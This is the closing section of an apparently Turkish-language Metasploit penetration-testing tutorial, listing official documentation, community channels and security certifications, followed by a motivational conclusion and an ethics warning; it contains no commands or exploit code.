### Resmi Kaynaklar

- **[Metasploit Documentation](https://docs.metasploit.com/)**
- **[Rapid7 Blog](https://blog.rapid7.com/)**
- **[Metasploit Unleashed (Free Course)](https://www.offensive-security.com/metasploit-unleashed/)**

### Topluluk

- **GitHub**: [rapid7/metasploit-framework](https://github.com/rapid7/metasploit-framework)
- **Discord**: Metasploit Community Server
- **Reddit**: r/Metasploit

### Sertifikasyonlar

- **OSCP** (Offensive Security Certified Professional) - Metasploit ağırlıklı
- **GPEN** (GIAC Penetration Tester)
- **CEH** (Certified Ethical Hacker) - Metasploit modülü var

---

## 🏁 Sonuç: Silahhanenin Anahtarları Senin Elinde

Buraya kadar okuduysan, **artık Metasploit'in sırlarını biliyorsun**.

✅ Framework mimarisini kavradın  
✅ Exploit, Auxiliary, Post modüllerini anlıyorsun  
✅ Meterpreter'ın gücünü öğrendin  
✅ Gerçek saldırı senaryolarını simüle ettin  
✅ Savunma perspektifini gördün  

**Bir sonraki seviye?**

1. **Kendi modüllerini yaz**
2. **0-day zafiyetler için PoC geliştir**
3. **Red Team operasyonlarına katıl**
4. **Bug bounty'lerde Metasploit kullan**

---

```ascii
╔══════════════════════════════════════════════════════════════╗
║                                                              ║
║  "Metasploit, bir araç değildir. Bir düşünce sistemidir."    ║
║                                                              ║
║  Sen artık bu sistemin bir parçasısın.                       ║
║  Bilgelikle kullan.                                          ║
║                                                              ║
║                           — Penetration Testing Manifestosu  ║
║                                                              ║
╚══════════════════════════════════════════════════════════════╝
```

---

**⚠️ SON UYARI**: Metasploit, atom bombası gibidir. **Bilim amaçlı mı, yıkım amaçlı mı** kullandığın, senin seçimin. Etik sınırları ASLA aşma.

**Mutlu Pentesting!** 🏴‍☠️

---

*Son Güncelleme: 2025*  
*Yazan: Red Team Operasyon Lideri - 25 Yıllık Tecrübe*